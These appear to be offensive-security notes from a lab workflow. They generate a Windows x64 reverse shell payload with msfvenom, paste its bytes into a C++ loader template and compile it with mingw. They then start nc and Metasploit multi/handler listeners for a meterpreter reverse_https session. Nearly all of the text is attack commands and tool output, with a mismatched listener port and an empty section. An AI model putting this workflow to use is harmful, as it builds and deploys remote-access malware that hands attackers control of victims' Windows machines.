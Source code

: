 Paste the byte array to the source code

```sh
$ msfvenom -p windows/x64/shell_reverse_tcp lhost=$myip lport=1337 -f raw -o beacon.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Saved as: beacon.bin
```

## Run listener on port 1337
```sh
nc -nlvvp 8443
```

## [Compile C++ Code in Kali](#compile-c-code-in-kali)
```sh
x86_64-w64-mingw32-gcc template.cpp -o 6-updated-code.exe -fpermissive -lws2_32
x86_64-w64-mingw32-gcc template.cpp -fpermissive -lws2_32 -o 7-updated-code.exe
```

## [Non Malicious Payload]
```sh
unsigned char payload[] ="\x00\x00\x00\x00";
```

## 
```sh

```

## [msfconsole meterpreter]
```sh
use exploit/multi/handler
set payload windows/x64/meterpreter/reverse_https
options
set lhost eth1
advanced
```

## 
```sh
msf6 > use exploit/multi/handler
[*] Using configured payload generic/shell_reverse_tcp
msf6 exploit(multi/handler) > set payload windows/x64/meterpreter/reverse_https
payload => windows/x64/meterpreter/reverse_https
msf6 exploit(multi/handler) >

msf6 exploit(multi/handler) > set lhost eth1
lhost => 10.1.1.10

msf6 exploit(multi/handler) > grep -i ssl advanced
   HandlerSSLCert                                                                no        Path to a SSL certificate in unified PEM format, ignored for HTTP transports
   SSLVersion                   Auto                                             yes       Specify the version of SSL/TLS to be used (Auto, TLS and SSL23 are auto-negotiate) (Ac
                                                                                           cepted: Auto, TLS, SSL23, SSL3, TLS1, TLS1.1, TLS1.2)
   StagerVerifySSLCert          false                                            no        Whether to verify the SSL certificate in Meterpreter
msf6 exploit(multi/handler) >
```
